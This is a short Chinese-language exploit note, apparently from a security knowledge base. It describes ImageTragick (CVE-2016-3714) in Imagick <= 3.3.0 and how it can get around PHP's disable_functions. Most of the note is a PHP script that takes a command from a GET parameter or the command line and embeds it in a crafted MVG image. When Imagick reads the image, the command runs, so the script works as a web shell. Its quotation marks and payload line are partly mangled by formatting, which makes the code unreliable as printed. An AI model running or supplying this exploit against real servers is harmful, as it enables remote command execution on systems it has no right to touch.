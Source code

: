 ```yaml
---
title: 利用 ImageMagick 漏洞绕过（一）
id: zhfly3470
---
```


## 利用 ImageMagick 漏洞绕过（一）

**1.利用条件**

Imagick <= 3.3.0
PHP >= 5.4

**2.基本原理**

ImageTragick（CVE-2016-3714）
漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的ImageMagick，ImageMagick会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。

**3.exp**

```
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == ‘cli’ ? $argv[1] : $_GET[‘cmd’];

if ($command == ‘’) {

$command = ‘id’;

}

$exploit = <<<EOF

push graphic-context

viewbox 0 0 640 480

fill ‘url([https://example.com/image.jpg"|$command"](https://example.com/image.jpg%22%7C%24command%22))’

pop graphic-context

EOF; `file_put_contents(“KKKK.mvg”, $exploit);

$thumb = new Imagick();

$thumb->readImage(‘KKKK.mvg’);

$thumb->writeImage(‘KKKK.png’);

$thumb->clear();

$thumb->destroy();

unlink(“KKKK.mvg”);

unlink(“KKKK.png”);

?>` 
```